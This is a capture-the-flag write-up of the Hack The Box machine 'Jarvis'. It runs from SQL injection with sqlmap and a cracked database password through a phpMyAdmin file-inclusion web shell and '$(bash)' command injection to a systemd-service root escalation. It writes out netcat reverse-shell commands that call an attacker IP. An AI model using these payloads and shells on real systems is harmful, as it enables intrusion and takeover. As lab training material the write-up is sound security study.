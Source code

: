 ```yaml
---
layout: PostSimple
date: 
title:     "Hack The Box - Jarvis"
tags: ['linux','medium','sudo','setuid','sqli','phpmyadmin','python']
layout: post
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/1.png)

We are going to pwn Jarvis from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/194>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.13 (94%), Linux 3.16 (94%), Linux 3.18 (94%), Linux 4.2 (94%), Linux 3.12 (93%), Linux 3.8 - 3.11 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP:

It looks like a normal webpage. So better we try bruteforcing the directories.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/2.png)

Got some details on the bottom of the page.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/3.png)

## Gobuster Result:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.143
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/03 19:14:12 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
===============================================================
2020/04/03 19:15:59 Finished
===============================================================
```

``/phpmyadmin``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/4.png)
Tried with default credentials ``Username: root Password: [null]`` but failed so better we try to enumerate more.

In the webpage clicking on ``Rooms`` it redirects to ``rooms-suites.php`` and by clicking any of those rooms it redirects to ``/room.php`` with a parameter called cod that holds the room number.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/5.png)

So I started SQLMAP with the url. There is some kind of filter which Ban us for 90 seconds.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/6.png)

>sqlmap -u http://supersecurehotel.htb/room.php?cod=1 --level 5 --risk 3

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/7.png)
And it give me some payload. It Looks like SQL Injection using UNION is there.

### What is SQL Injection using UNION?
>When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database.

> sqlmap -u http://supersecurehotel.htb/room.php?cod=1 --level 5 --risk 3 --password

Got ``DBadmin`` hash.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/9.png)

I cracked that using [CrackStation](https://crackstation.net/)<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/10.png)

``/phpmyadmin``<br/>

``DBadmin:imissyou``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/11.png)

Found Phpmyadmin's version so search for any exploit available.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/12.png)

><https://www.exploit-db.com/exploits/44928>

According to the exploit we need to inject the payload in SQL Query.<br/>
```select '<?php system($_GET["cmd"]);?>'```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/13.png)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/14.png)

Now we need to get the Session ID of phpMyAdmin.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/15.png)

``http://supersecurehotel.htb/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_8271hfci8stuji9h69a2huedmt4dt75e&cmd=ls``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/16.png)

Its working lets try to get reverse shell!

## Shell as www-data

``nc -e /bin/sh 10.10.14.19 1234``

I got the shell as ``www-data``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/17.png)


I started with ``sudo -l`` and looks like we can run ``simpler.py`` as pepper without password.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/18.png)

Lets see how ``simpler.py`` works<br/>
```
python simpler.py
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************


********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    
```
While checking the python code, I found a Interesting thing:
```
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

It takes the input and ping the command we send and it also forbidden ``['&', ';', '-', '`', '||', '|']`` these symbols to prevent us to do some other commands.But they didn't filtered ``$``, we can use this by ``$(command)``. I did ``$(bash)`` and got the user ``pepper``.

```
$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: 127.0.0.1 $(bash)
127.0.0.1 $(bash)
pepper@jarvis:/var/www/Admin-Utilities$ whoami
whoami
pepper@jarvis:/var/www/Admin-Utilities$
pepper
```

## Privilege Escalation

Started my enumeration script and found there is a SUID binary.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/19.png)

I checked [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/), According to that we need to create a service that executes a file of our choice when it enables.
I created a service called ``test.service`` in my machine and uploaded that to the box.

``test.service``
```
[Service]
Type=oneshot
ExecStart=/bin/sh -c "nc -e /bin/sh 10.10.14.19 5555"
[Install]
WantedBy=multi-user.target
```

Uploaded the script to the box and gave executable permission. Now we need to link the service first and then enable the service which executes it.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/20.png)

Started my listener<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/21.png) <br/>
I'm Root


